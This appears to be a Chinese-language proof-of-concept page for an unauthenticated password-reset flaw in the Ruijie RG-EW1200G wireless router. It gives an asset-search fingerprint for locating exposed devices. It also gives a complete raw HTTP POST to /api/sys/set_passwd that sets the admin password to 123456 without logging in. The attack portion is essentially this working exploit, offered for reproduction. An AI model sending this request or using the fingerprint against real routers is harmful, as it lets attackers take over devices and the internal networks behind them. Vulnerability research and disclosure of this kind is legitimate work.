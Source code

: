 # 锐捷RG-EW1200G路由器未授权任意密码修改

# <font style="color:rgba(0, 0, 0, 0.9);">一、漏洞简介</font>
<font style="color:rgba(0, 0, 0, 0.9);">锐捷网络RG-EW1200G 存在未授权任意密码修改漏洞，允许任何用户未授权修改密码。登录路由器，获取敏感信息，控制内部网络</font>

# 二、影响版本
+ <font style="color:rgba(0, 0, 0, 0.9);">RG-EW1200G无线路由器</font>

# 三、资产测绘
```plain
body="/static/js/app.09df2a9e44ab48766f5f.js"
```

![1711861011537-b26157a8-4ea8-4b53-9e61-798dd6a3cb05.png](./img/ZZUhORDFnoBu0aNb/1711861011537-b26157a8-4ea8-4b53-9e61-798dd6a3cb05-295961.png)

+ 登录页面

![1711860999021-84f63469-af01-48b1-8a8f-5d94d53d0fd0.png](./img/ZZUhORDFnoBu0aNb/1711860999021-84f63469-af01-48b1-8a8f-5d94d53d0fd0-601664.png)

# 四、漏洞复现
```plain
POST /api/sys/set_passwd HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{"username":"admin","admin_new":"123456"}
```

![1711865641902-da372739-98a1-4b1e-b25e-286ffb287b58.png](./img/ZZUhORDFnoBu0aNb/1711865641902-da372739-98a1-4b1e-b25e-286ffb287b58-292126.png)

![1711861062625-d4b54cd2-b4dc-4d66-a6ea-f5b5d18788af.png](./img/ZZUhORDFnoBu0aNb/1711861062625-d4b54cd2-b4dc-4d66-a6ea-f5b5d18788af-036339.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bwyubc8k94kw6h1e>